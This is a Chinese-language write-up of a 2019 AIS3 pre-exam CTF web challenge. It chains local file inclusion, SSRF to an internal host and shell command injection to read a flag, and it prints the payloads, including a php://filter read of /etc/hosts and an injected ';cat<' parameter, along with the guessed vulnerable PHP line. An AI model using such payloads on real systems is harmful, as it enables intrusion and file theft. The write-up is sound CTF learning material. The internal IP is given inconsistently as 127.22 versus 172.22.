


# AIS3 pre-exam 2019: d1v1n6

**Category:** Web  
**Description:**  

>d1v1n6 DEEPER  
>@djosix

## Write-up

依照上一題給的提示，如下。

```
Hints for d1v1n6 d33p3r:
- Find the other web server in the internal network.
- Scanning is forbidden and not necessary.
```

可以知道應該是在考 SSRF，但第一個目標是要先知道跳板主機處在內網的 IP 位置，這時候很無腦的在那邊 `192.168.0.1` 從 Class C 手動下手（有病嘛!!），最後突然想到，是不是可以從 LFI 的漏洞，直接存取系統上的相關資訊，於是抓了 hosts 檔。  

```
/?path=php://filter/convert.base64-encode/resource=../../../../../../etc/hosts
```

檔案內容：

```
127.0.0.1	localhost ::1
localhost ip6-localhost ip6-loopback fe00::0	
ip6-localnet ff00::0	
ip6-mcastprefix ff02::1	ip6-allnodes ff02::2	
ip6-allrouters 172.22.0.3	b7fba1715fe6
```

可以清楚看到第一題的主機位置為 `127.22.0.3`，手動上下踹一下，得到目標主機位置 `127.22.0.2`。  

該頁面是一個 `Directory Lister` 工具。  

  

可以直接指定，路徑位置，並且該工具會回傳該路徑下的所有檔案清單，就像 Linux 的 ls -ha 指令。  

一開始傻傻的在找 Flag 位置，東翻西翻的，後來才驚覺可能是 cmd-i，而 Flag 就藏在該頁面的 php 檔案上。  

經過一連串的嘗試，都沒有反映，最後是聽友朋友說，會不會是要做「閉合」之類的動作，於是就往這方面進行嘗試，結果不小心成功有了一些行為。  

  

```
?path=http://127.22.0.2/index.php
?dir=./%27;cat>%27ls
```

隊的，由於 cat 的箭頭錯了，然後也樂在其中，就順手加了好多檔案（雖然不久之後就被清掉）。  

接著再接再厲，改變了箭頭，並且目標為 `index.php`，得到 Flag。  

```
?path=http://127.22.0.2/index.php
?dir=./%27;cat<%27index.php
```

然後後知後覺再去猜測他原始碼可能長這樣。

```PHP
system("bash -c ls -ha '$input'");
```